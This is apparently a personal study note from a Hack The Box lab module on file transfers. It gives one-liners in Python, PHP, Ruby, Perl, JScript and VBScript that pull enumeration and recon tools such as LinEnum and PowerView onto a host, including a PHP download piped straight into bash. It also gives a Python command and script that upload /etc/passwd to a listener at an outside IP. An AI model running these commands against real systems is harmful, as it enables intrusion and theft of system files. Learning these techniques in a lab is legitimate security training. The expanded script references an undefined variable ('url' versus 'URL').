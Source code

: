 ```yaml
---
Title: HTB\File_Transfers\Using Code
tags:
  - os/linux
  - os/windows
source: HTB\File_Transfers\Using Code
---
```


# HTB\File_Transfers\Using Code

> Źródło: `HTB\File_Transfers\Using Code`

### Using Python one liners (Download):

```bash
Ovas420@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

```

```bash
Ovas420@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```


### Using PHP Download file_get_contents()

```bash
Ovas420@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```


### Using PHP Download Fopen()

```bash
Ovas420@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote =
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```


### php download a file and pipe it to bash
```bash
Ovas420@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note**: `The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.`

Ruby and Perl are other popular languages that can also be used to transfer files.
These two programming languages also support running one-liners from an operating system command line using the option -e.

### Ruby
```bash
Ovas420@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```


### Perl
```bash
Ovas420@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

### Javascript Code
The following javascript code is based on (https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068)
We will create a file wget.js with the following content:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Download a file using javascript and cscript.exe

```cmd
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

### VBScript (https://en.wikipedia.org/wiki/VBScript)

VBScript ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

we will create a wget.vbs file with the following content:

```VBS
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send
with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with

```

Download a File Using VBScript and cscript.exe

```cmd
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

### Python Upload to target
If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation.
The Python3 requests module allows you to send HTTP requests (GET, POST, PUT, etc.) using Python.
We can use the following code if we want to upload a file to our Python3 uploadserver.


starting the python uploadserver module

```bash
Ovas420@htb[/htb]$ python3 -m uploadserver
```

uploading a file using a python one-liner

```bash
Ovas420@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```


we can split this one-liner into a file to see it clearer

```python
# To use the requests function, we need to import the module first.
import requests

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file.
r = requests.post(url,files={"files":file})
```

**Powiązane:** [[Graph-Home]] [[OS-Windows]]
